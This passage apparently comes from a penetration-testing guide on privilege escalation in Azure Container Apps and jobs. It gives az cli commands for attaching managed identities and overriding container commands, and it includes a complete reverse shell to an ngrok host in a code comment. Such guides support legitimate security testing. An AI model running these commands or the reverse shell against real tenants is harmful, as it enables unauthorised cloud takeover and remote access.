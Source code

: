 ### `Microsoft.App/containerApps/write`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`

These permissions allows to **attach a user managed identity** to a container app. This is very useful to escalate privileges in the container. Executing this action from the az cli also requires the permission `Microsoft.App/containerApps/listSecrets/action`.

To attach a user managed identity to a container group:

```bash
az containerapp identity assign -n <app-name> -g <res-group> --user-assigned myUserIdentityName
```

### `Microsoft.App/containerApps/write`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`, `Microsoft.App/managedEnvironments/join/action`

These permission allows to **create or update an application container** with a **user managed identity** attached to it. This is very useful to escalate privileges in the container.

```bash
# Get environments
az containerapp env list --resource-group Resource_Group_1

# Create app in a an environment
az containerapp create \
  --name <app-name> \
  --resource-group <res-group> \
  --image mcr.microsoft.com/oss/nginx/nginx:1.9.15-alpine \
  --cpu 1 --memory 1.0 \
  --user-assigned <user-asigned-identity-name> \
  --min-replicas 1 \
  --command "<reserse shell>"
```

> [!TIP]
> Note that with these permisions **other configurations of the app** can be modified which could allow to perform other privesc and post explaoitation attacks depending on the configuration of existing apps.

## Jobs

### `Microsoft.App/jobs/read`, `Microsoft.App/jobs/write`

Although jobs aren’t long‑running like container apps, you can exploit the ability to override the job’s command configuration when starting an execution. By crafting a custom job template (for example, replacing the default command with a reverse shell), you can gain shell access within the container that runs the job.


```bash
# Retrieve the current job configuration and save its template:
az containerapp job show --name <job-name> --resource-group <res-group> --output yaml > job-template.yaml

# Edit job-template.yaml to override the command with a reverse shell (or similar payload):
# For example, change the container’s command to:
#  - args:
#      - -c
#      - bash -i >& /dev/tcp/4.tcp.eu.ngrok.io/18224 0>&1
#      command:
#      - /bin/bash
#      image: mcr.microsoft.com/azureml/minimal-ubuntu22.04-py39-cpu-inference:latest

# Update and wait until the job is triggered (or change ths type to scheduled)
az containerapp job update --name deletemejob6 --resource-group Resource_Group_1 --yaml /tmp/changeme.yaml
```